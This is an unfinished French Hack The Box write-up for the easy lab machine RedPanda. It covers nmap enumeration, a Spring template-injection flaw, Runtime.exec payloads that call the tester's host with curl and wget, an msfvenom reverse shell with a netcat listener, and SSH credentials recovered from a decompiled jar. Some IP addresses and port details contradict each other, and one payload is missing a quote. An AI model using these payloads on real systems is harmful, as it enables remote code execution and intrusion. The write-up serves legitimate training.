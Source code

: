```yaml
---
title:  "HacktheBox WriteUp : RedPanda"
category: HackTheBox
tag: writeups
published: false
---
```

RedPanda est une machine pour débutants basée sur une plateforme Linux.  
Niveau : Facile

## 1 - Enumeration Nmap

`sudo nmap 10.10.11.170/24`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-03 20:15 CET<>`
Nmap scan report for 10.10.11.170
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```
On voit que parmi les services disponible, un serveur web est actif sur le port 80.

## 2 - Enumeration Web
Après Exploration du site, on tombe sur une barre de recherche.
![RedPandaSearch](/assets/images/WriteUps/HackTheBox/redPanda/injection1.png){: width="500" style="display: block; margin: 0 auto"}

Celle-ci nous permet de trouver des utilisateurs qui ont un profil sur le site.
![redPandaProfil](/assets/images/WriteUps/HackTheBox/redPanda/injection2.png){: width="500" style="display: block; margin: 0 auto"}

### 2.1 - Découverte de SSTI (Server side template injection)

Puisque la page du profil de Greg nous parlait d'injection, on fait quelques tests.
Après quelques tests de type d'injections classiques (Sql, Xpath, ...).
On tombe sur une injection SSTI qui fonctionne avec `*{7*7}`.

![SSTIFinding](/assets/images/WriteUps/HackTheBox/redPanda/injection3.png){: width="500" style="display: block; margin: 0 auto"}

On sait maintenant de quel type d'injection il s'agit.

### 2.2 - Identification du framework

Maintenant qu'on sait qu'il s'agit d'une injection de template, il s'agirait d'identifier lequel.
Parmi toutes les commandes testées pour la SSTI, `*{7*'7'}` a donné un `Whitelabel Error Page`.  

![templateIdentif](/assets/images/WriteUps/HackTheBox/redPanda/framework.png){: width="500" style="display: block; margin: 0 auto"}


Après quelques recherches sur google, on tombe sur le site [spring template](https://zetcode.com/springboot/whitelabelerror/), nous indiquant qu'il s'agit du template Spring, un framework populaire pour les applications java.   
On trouve sur [Hacktrics](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) la commande 
``` 
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())
```
utilisée pour ce framework. 

### 2.3 - Etablissement d'un serveur http et connection
On peut maintenant exécuter des requêtes à distance à partir de la barre de recherche.
On instancie un serveur http sur notre kali.

![httpServeur](/assets/images/WriteUps/HackTheBox/redPanda/createServer.png){: width="500" style="display: block; margin: 0 auto"}


Nous testons l'accessibilité de notre serveur web (10.10.11.168) depuis le serveur web de la box (10.10.11.170)
à partir de la barre de recherchee.
Requête : 
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl 10.10.11.168').getInputStream())}
```   
Reponse du serveur : 
![serveurRes](/assets/images/WriteUps/HackTheBox/redPanda/serverResponse.png){: width="500" style="display: block; margin: 0 auto"}


### 2.4 - ReverseShell
- Nous utilisons msfvenom pour générer un reverse shell en direction de notre serveur web (10.10.14.103):  
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.103 LPORT=443 -f elf > blabla.elf
```  
- Nous déplaçons le reverseShell (blabla.elf) dans le dossier depuis lequel nous exécutons notre serveur web.
- Nous exécutons un netcat sur le port 443 (sur la kali) afin d'accueillir la futur connection du reverse shell.  
- Depuis la machine cible (donc sur la barre de recherche), nous exécutons un wget de blabla.elf et l'exécutons afin de se connecter au netcat en écoute.

Après cela, nous faisons en sorte d'avoir un "meilleur shell" (voir [référence](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) et de récupérer le flag user qui
est présent sur le répertoire courant.

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(wget  10.10.14.168/blabla.elf').getInputStream())}
```

![netcatKali](/assets/images/WriteUps/HackTheBox/redPanda/flagUser.png){: width="500" style="display: block; margin: 0 auto"}

## Élévation de privilèges

Nous utilisons l'outil [pspy64s](https://github.com/DominicBreuker/pspy) pour regarder les processus qui tournent sur la machine.
```
woodenk@redpanda:/home/woodenk$ cd /tmp
woodenk@redpanda:/tmp$ wget 10.10.14.103/pspy64s
woodenk@redpanda:/tmp$ chmod +x ./pspy64s
woodenk@redpanda:/tmp$ ./pspy64
```

Nous voyons un jar, que nous récupérons sur notre kali (en utilisant un serveur web sur /tmp sur la machine cible).

 <img src="/assets/images/WriteUps/HackTheBox/redPanda/jarcredits.png" width="1200px" height="600px"/>
Nous pouvons ouvrir le jar avec [jd-gui](http://java-decompiler.github.io/)

En recherchant dans les fichiers, on trouve un fichier "/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java"
qui contient des identifiants qui sont utilisables en ssh :  

<img src="/assets/images/WriteUps/HackTheBox/redPanda/passwordMainController.png" width="1200px" height="600px"/>

À continuer ...

## Références
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- https://github.com/DominicBreuker/pspy
- http://java-decompiler.github.io/
